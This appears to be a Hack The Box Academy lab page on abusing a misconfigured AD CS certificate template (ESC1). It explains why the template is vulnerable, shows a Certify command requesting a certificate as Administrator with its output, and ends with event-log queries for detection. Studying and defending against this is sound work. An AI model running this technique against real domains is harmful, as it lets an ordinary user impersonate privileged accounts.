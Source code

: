 ![Certify scan for vulnerable templates](https://academy.hackthebox.com/storage/modules/176/A13/certifyRequest.png)

When checking the 'Vulnerable Certificate Templates' section from the output of Certify, we will see that a single template with plenty of information about it is listed. We can tell that the name of the CA in the environment is `PKI.eagle.local\eagle-PKI-CA`, and the vulnerable template is named `UserCert`. The template is vulnerable because:

- All Domain users can request a certificate on this template.
- The flag [CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1) is present, allowing the requester to specify the `SAN` (therefore, any user can request a certificate as any other user in the network, including privileged ones).
- Manager approval is not required (the certificate gets issued immediately after the request without approval).
- The certificate can be used for 'Client Authentication' (we can use it for login/authentication).

To abuse this template, we will use `Certify` and pass the argument `request` by specifying the full name of the CA, the name of the vulnerable template, and the name of the user, for example, `Administrator`:

  PKI - ESC1

```powershell-session
PS C:\Users\bob\Downloads> .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : EAGLE\bob
[*] No subject name specified, using current context as subject.

[*] Template                : UserCert
[*] Subject                 : CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] AltName                 : Administrator

[*] Certificate Authority   : PKI.eagle.local\eagle-PKI-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 36

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIE...
<SNIP>
<SNIP>
wgP7EwPpxHKOrlZr6H+5lS58u/9EuIgdSk1X3VWuZvWRdjL15ovn
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGLzCCBRegAwIBAgITFgAAACx6zV6bbfN1ZQAAAAAALDANBgkqhkiG9w0BAQsF
<SNIP>
<SNIP>
eVAB
-----END CERTIFICATE-----

```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *
